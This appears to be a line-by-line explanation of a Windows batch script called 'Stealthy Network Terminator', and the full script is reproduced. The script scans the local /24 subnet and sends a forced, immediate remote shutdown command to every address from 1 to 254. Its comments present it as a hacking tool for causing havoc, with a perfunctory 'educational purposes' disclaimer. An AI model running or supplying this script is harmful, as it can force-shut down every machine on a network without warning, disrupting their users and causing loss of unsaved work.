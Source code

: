 





sline-by-line explanation:

```plaintext
1. @echo off
```
- Disables echoing of commands, preventing them from being displayed in the console as they are executed.

```plaintext
2. setlocal enabledelayedexpansion
```
- Enables delayed expansion of variables, allowing the use of `!` syntax to access variable values within loops.

```plaintext
3. REM Stealthy Network Terminator - Developed by FLUFFY
```
- A comment providing information about the script, including its name and developer.

```plaintext
4. REM This script is for educational purposes only. Misuse for malicious intent is illegal.
```
- A comment emphasizing the script's intended use for educational purposes only and warning against misuse.

```plaintext
5. REM FLUFFY presents the Stealthy Network Terminator (SNT), a potent tool for hacking enthusiasts.
6. REM It silently infiltrates your local network, wreaking havoc with a single click.
```
- Comments further describing the purpose of the script, presenting it as a tool for hacking enthusiasts that can silently infiltrate a local network to cause havoc.

```plaintext
7. REM WARNING: Use this tool responsibly and only on networks you own or have explicit permission to test.
```
- A warning emphasizing responsible use of the script and advising against using it on networks without proper authorization.

```plaintext
8. REM Get ready to unleash chaos! Initiating SNT...
```
- A comment indicating that the script is about to begin executing its main functionality.

```plaintext
9. REM Get local IP address
10. for /f "tokens=2 delims=:" %%i in ('ipconfig ^| findstr IPv4') do (
11.     set "local_ip=%%i"
12. )
```
- Retrieves the local IP address of the machine by parsing the output of the `ipconfig` command and storing it in the variable `local_ip`.

```plaintext
13. if "%local_ip%"=="" (
14.     echo Failed to retrieve local IP address. Aborting operation.
15.     exit /b 1
16. )
```
- Checks if the local IP address was successfully retrieved. If not, it displays an error message and exits the script with an error code.

```plaintext
17. REM Extract network range
18. for /f "tokens=1,2,3 delims=." %%a in ("!local_ip!") do (
19.     set "network_range=%%a.%%b.%%c."
20. )
```
- Extracts the network range from the local IP address by splitting it at each period (.) and storing the first three parts in the variable `network_range`.

```plaintext
21. if "%network_range%"=="" (
22.     echo Failed to extract network range. Aborting operation.
23.     exit /b 1
24. )
```
- Checks if the network range was successfully extracted. If not, it displays an error message and exits the script with an error code.

```plaintext
25. REM Initiating shutdown sequence for all devices in the network range
26. echo Stealth mode activated... Engaging the SNT...
```
- Indicates that the script is about to begin shutting down devices on the network and provides some dramatic flair.

```plaintext
27. set "error_count=0"
```
- Initializes a variable `error_count` to keep track of any errors encountered during the shutdown process.

```plaintext
28. for /L %%i in (1,1,254) do (
29.     set "ip=!network_range!%%i"
30.     shutdown /s /f /t 0 /m \\!ip! >nul 2>&1
31.     if errorlevel 1 (
32.         echo Failed to send shutdown command to !ip!... Evading detection.
33.         set /a "error_count+=1"
34.     ) else (
35.         echo Shutdown command sent to !ip!... Target neutralized.
36.     )
37. )
```
- Loops through all IP addresses in the network range (from 1 to 254), constructs each IP address, and sends a shutdown command to it using the `shutdown` command. It also checks if the command was successful and updates the `error_count` variable accordingly.

```plaintext
38. echo.
```
- Outputs a blank line for better readability in the console.

```plaintext
39. if %error_count% gtr 0 (
40.     echo %error_count% devices failed to shut down... Potential resistance detected.
41. ) else (
42.     echo All devices in the network range have received shutdown command... Network domination achieved!
43. )
```
- Checks if any devices failed to shut down. If so, it displays the number of failures. Otherwise, it indicates that all devices have received the shutdown command successfully.

```plaintext
44. echo Terminating SNT... Exit stealth mode and return to the shadows.
45. pause
```
- Provides a closing message and pauses the script execution to allow the user to view the output before closing the console window.
